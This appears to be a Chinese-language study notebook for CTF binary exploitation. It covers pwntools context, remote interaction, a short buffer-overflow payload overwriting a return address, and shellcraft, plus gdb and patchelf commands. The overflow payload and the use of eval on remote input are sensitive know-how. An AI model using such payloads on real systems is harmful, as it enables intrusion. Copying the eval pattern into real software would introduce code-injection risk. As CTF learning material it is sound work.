

# Pwntools

## context

context 是 pwntools 用来设置环境的功能。在很多时候，由于二进制文件的情况不同，我们可能需要进行一些环境设置才能够正常运行exp，比如有一些需要进行汇编，但是32的汇编和64的汇编不同，如果不设置context会导致一些问题。
一般来说我们设置context只需要简单的一句话：`context(os='linux', arch='amd64', log_level='debug')`或者`context(os='linux', arch='amd64')`

> 这句话的意思是：
>
> 1. os设置系统为linux系统，在完成ctf题目的时候，大多数pwn题目的系统都是linux
> 2. arch设置架构为amd64，可以简单的认为设置为64位的模式，对应的32位模式是’i386’
> 3. log_level设置日志输出的等级为debug，这句话在调试的时候一般会设置，这样pwntools会将完整的io过程都打印下来，使得调试更加方便，可以避免在完成CTF题目时出现一些和IO相关的错误。

## 交互

```python
host = "124.223.159.125"
port = 9002
pattern = r"(-?\d+) (\+|-|\*|/) (-?\d+)"
r = remote(host, port)
# remote.interactive()
for i in range(1026):
    while 1:
        line = r.recvline()
        print(line.decode(), end='')
        match = re.search(pattern, line.decode())
        if match:
            num1 = match.group(1)
            op = match.group(2)
            num2 = match.group(3)
            result = eval(num1 + op + num2)
            print(i, num1 + op + num2, '=', result)
            print(r.recvuntil(b"input >>").decode())
            r.sendline(str(result).encode())
            break
r.interactive()
r.close()
```

## sendpayload

```python
from pwn import *
host = "149.104.24.236"
port = 6003
io = remote(host, port)
payloadtext = 0x401222
payload = b"I" * 12 + b'a' * 4 + p64(payloadtext)
dem = b'Just try~\n'
io.sendlineafter(dem, payload)
io.interactive()
```

## shellcarft

shellcraft模块是shellcode的模块，包含一些生成shellcode的函数。
其中的子模块声明架构，比如`shellcraft.arm`是ARM架构的，`shellcraft.amd64`是AMD64架构，`shellcraft.i386`是Intel 80386架构的，以及有一个`shellcraft.common`是所有架构通用的。

# gdb

## 显示数据

1. x

   1. `i`：指令形式  (`x/10i 0x111`，以指令形式显示`0x111`处的`10`个字节数据)

   1. `x`：十六进制

   1. `s`：字符串形式

2. p

## dump

`dump memory dump_flag 0x7ffff7ff8000 0x7ffff7ffd000`
`dump`内存这部分，ELF文件结构，不懂：



## catch

### catch syscall

1. `catch syscall`
2. `catch syscall exit_groups`

## set

1. `set follow-fork-mode child`：调试到`fork`函数时，进入子进程

# patchelf
```python
biu@biu:~/Desktop$ ldd 111b00ks 
	linux-vdso.so.1 (0x00007fff6f157000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffb3fe00000)
	/lib64/ld-linux-x86-64.so.2 (0x00007ffb40410000)
biu@biu:~/Desktop$ patchelf --set-interpreter /lib64/ld-linux-x86-64.so.2  ./b00ks 
biu@biu:~/Desktop$ patchelf --replace-needed libc.so.6 /lib/x86_64-linux-gnu/libc.so.6  ./b00ks 
biu@biu:~/Desktop$ ldd b00ks 
	linux-vdso.so.1 (0x00007fff431cd000)
	/lib/x86_64-linux-gnu/libc.so.6 (0x00007fd50fe00000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fd5105e5000)
```